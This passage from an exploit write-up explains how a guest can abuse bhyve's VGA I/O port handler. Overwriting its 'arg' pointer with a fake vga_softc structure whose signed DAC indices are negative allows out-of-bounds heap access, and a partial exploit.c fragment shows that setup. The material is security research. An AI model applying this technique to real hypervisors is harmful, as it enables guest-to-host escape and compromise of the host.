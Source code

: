         . . .
                retval = handler(ctx, vcpu, in, port, bytes, &val, arg);
        . . .
}

Overwriting 'arg' pointer in 'inout_handlers' structure could provide
interesting primitives. In this case, VGA emulation registers its I/O port
handler vga_port_handler() defined in vga.c for the port range of 0x3C0 to
0x3DF with 'vga_softc' structure as 'arg'.

void *
vga_init(int io_only)
{
        . . .
        sc = calloc(1, sizeof(struct vga_softc));

        bzero(&iop, sizeof(struct inout_port));
        iop.name = "VGA";
        for (port = VGA_IOPORT_START; port <= VGA_IOPORT_END; port++) {
                iop.port = port;
                iop.size = 1;
                iop.flags = IOPORT_F_INOUT;
                iop.handler = vga_port_handler;
                iop.arg = sc;

                error = register_inout(&iop);
                assert(error == 0);
        }
        . . .
}

Going back to the patch in section 2, it is noticed that dac_rd_index,
dac_rd_subindex, dac_wr_index, dac_wr_subindex are all signed integers.
Hence by overwriting 'arg' pointer with the address of fake 'vga_softc'
structure in heap and dac_rd_index/dac_wr_index set to negative values, the
guest can access memory before 'dac_palette' array. Specifically, the 'arg'
pointer of DAC_DATA_PORT (0x3c9) needs to be overwritten since it handles
read and write access to the 'dac_palette' array. 

---[ exploit.c ]---
. . .
        /* setup fake vga_softc structure */
        memset(&vga_softc, 0, sizeof(struct vga_softc));
        chunk_hi_offset = CHUNK_ADDR2OFFSET(vga_softc_bins[2] +
                                get_offset(struct vga_softc,
vga_dac.dac_palette));

        /* set up values for reading the heap chunk */
        vga_softc.vga_dac.dac_rd_subindex = -chunk_hi_offset;
        vga_softc.vga_dac.dac_wr_subindex = -chunk_hi_offset;
. . .


Therefore instead of overwriting 'mmio_hint' using mevent_delete() unlink,
